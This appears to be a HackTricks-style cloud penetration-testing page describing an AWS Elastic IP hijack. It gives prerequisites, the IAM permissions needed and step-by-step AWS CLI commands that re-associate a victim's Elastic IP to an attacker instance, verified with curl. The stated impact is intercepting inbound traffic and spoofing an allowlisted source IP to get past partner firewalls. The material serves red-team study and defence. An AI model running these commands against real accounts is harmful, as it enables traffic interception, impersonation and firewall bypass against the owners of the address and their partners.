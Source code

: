 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Summary

Abuse `ec2:AssociateAddress` (and optionally `ec2:DisassociateAddress`) to re-associate an Elastic IP (EIP) from a victim instance/ENI to an attacker instance/ENI. This redirects inbound traffic destined to the EIP to the attacker and also lets the attacker originate outbound traffic with the allowlisted public IP to bypass external partner firewalls.

## Prerequisites
- Target EIP allocation ID in the same account/VPC.
- Attacker instance/ENI you control.
- Permissions:
  - `ec2:DescribeAddresses`
  - `ec2:AssociateAddress` on the EIP allocation-id and on the attacker instance/ENI
  - `ec2:DisassociateAddress` (optional). Note: `--allow-reassociation` will auto-disassociate from the prior attachment.

## Attack

Variables

```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```

1) Allocate or identify the victim’s EIP (lab allocates a fresh one and attaches to victim)

```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```

2) Verify the EIP currently resolves to the victim service (example checks for a banner)

```bash
curl -sS http://$EIP | grep -i victim
```

3) Re-associate the EIP to the attacker (auto-disassociates from victim)

```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```

4) Verify the EIP now resolves to the attacker service

```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```

Evidence (moved association):

```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
  --query Addresses[0].AssociationId --output text
```

## Impact
- Inbound impersonation: All traffic to the hijacked EIP is delivered to the attacker instance/ENI.
- Outbound impersonation: Attacker can initiate traffic that appears to originate from the allowlisted public IP (useful to bypass partner/external source IP filters).

{{#include ../../../../banners/hacktricks-training.md}}
